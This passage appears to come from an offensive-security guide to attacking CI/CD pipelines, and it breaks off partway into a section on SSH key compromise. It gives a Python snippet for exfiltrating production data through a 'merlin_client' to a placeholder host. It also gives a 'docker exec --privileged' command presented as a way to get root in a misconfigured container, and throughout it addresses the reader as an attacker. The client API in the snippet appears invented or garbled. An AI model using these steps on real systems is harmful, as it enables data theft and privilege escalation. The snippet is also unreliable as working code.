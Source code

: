 <img style="background: white" src="../../images/ex-res.drawio.png">

 In cases where the pipelines can access the production resources, the attackers will have access to these resources as well. Therefore, they can abuse this access for exfiltrating production data.


```
from merlin import merlin_client

# Create a Merlin client object
client = merlin_client.MerlinClient()

# Connect to the target server using the provided URL and authentication token
client.connect('https://target_server.com', 'auth_token')

# Prepare your data for transfer
data = b'This is some sample data to transfer'

# Transfer the data to the server
client.send_data(data)

# Optionally, receive a response from the server
response = client.receive_response()
print(response)
```





### Misconfigured container

If a container is not properly configured, it may be possible to escalate privileges to root or access sensitive data. To do this, you could try to run a command like 

```
docker exec -it --privileged <container_name> /bin/bash
```

to gain root access.


### SSH key compromise

If an attacker is able to compromise an SSH key, they can use it to gain access to additional systems. To do this, you could try to use a command like 
